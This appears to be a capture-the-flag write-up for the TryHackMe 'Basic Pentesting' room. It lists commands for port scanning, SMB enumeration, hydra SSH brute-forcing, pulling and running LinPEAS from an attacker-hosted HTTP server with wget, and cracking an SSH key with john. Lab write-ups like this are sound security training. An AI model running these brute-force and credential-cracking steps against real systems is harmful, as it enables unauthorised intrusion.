 ```yaml
---
description: https://tryhackme.com/room/basicpentestingjt
---
```


# Basic Pentesting

Wrap-UP:

1.  use **nmap** to scan the open ports

    ```
    nmap -sV <ip>
    ```
2. use **gobuster** to enumerate hidden folders in web server\
   Syntax: gobuster -u \[HTTP://ip] -w \[wordlist]\
   gobuster dir -u http://ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \

3.  use **Enum4Linux** to scan the whole system\
    Syntax: Enum4linux -a \[IP]\
    Instead of grabbing user information from Enum4Linux output, we can scan smb to get information:\
    Syntax: smbclient \[IP]//\[smb share] -U \[username, if applicable]\
    ![](<../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1).png>)\
    Connect:\


    ```
    smbclient //<IP>/anonymous

    staff.txt:
    Announcement to staff:

    PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
    this is how mistakes happen. (This means you too, Jan!)

    -Kay
    ```
4.  Use **hydra** to brutal-forcing the password:\
    Syntax: hydra -l \[username] -P \[wordlist] \[IP] \[service]\
    OR\
    Syntax: hydra -l \[username] -P \[wordlist] \[service://IP]\
    \


    ```
    hydra -l jan -P /usr/share/wordlists/rockyou.txt <IP> ssh


    ```
5.  login with the credentials get from previous steps.\


    ```
    cat /etc/passwd

    SSH into the machine using the discovered credentials (user: jan):

    ssh jan@<target-ip-address>
    ```
6.  Use **privilege escalation tool like LinEnum or Linpeas**\
    transport the linpeas:\
    scp \[linenum.sh] \[user@ip]\
    use linenum.sh to scan:\
    ./linenum.sh | tee long.txt\
    \


    Start a Python HTTP server to transfer scripts from your local machine to the target:

    > python3 -m http.server — bind \<your-tun0-ip> 8000
    >
    > \
    > ![](<../.gitbook/assets/image (8) (1) (1) (1) (1).png>)\
    >
    >
    > On the target machine, download the script:
    >
    > > wget http://\<your-tun0-ip>:8000/\<script-file-name>\
    > > \
    > > \
    > >
    > >
    > > Make the script executable and run it:
    > >
    > > > chmod +x \<script-name>\
    > > > ./\<script-name>
    > >
    > > \
    > > ![](<../.gitbook/assets/image (9) (1) (1) (1) (1).png>)\
    > > \
    > > chmod 600 id\_rsa
7. From task 6 we can find the id\_rsa hash key for kay to login. Copy the file to the local machine and use john to crack the hash file.\
   Syntax: **ssh2john** \[file] > hash.txt\
   &#x20;    ssh2john id\_rsa > john-pass\
   Crack the hash file password:\
   Syntax: john hash.txt — wordlist=\[wordlist]\
   john — wordlist=/usr/share/wordlists/rockyou.txt john-pass\
   ![](<../.gitbook/assets/image (11) (1) (1).png>)
8.  ssh to the new user with cracked rsa\_id\


    SSH into user `kay` using the cracked key:

    > ssh -i id\_rsa kay@\<target-ip>\
    > ![](<../.gitbook/assets/image (12) (1).png>)\
    > \
    > ![](<../.gitbook/assets/image (13).png>)
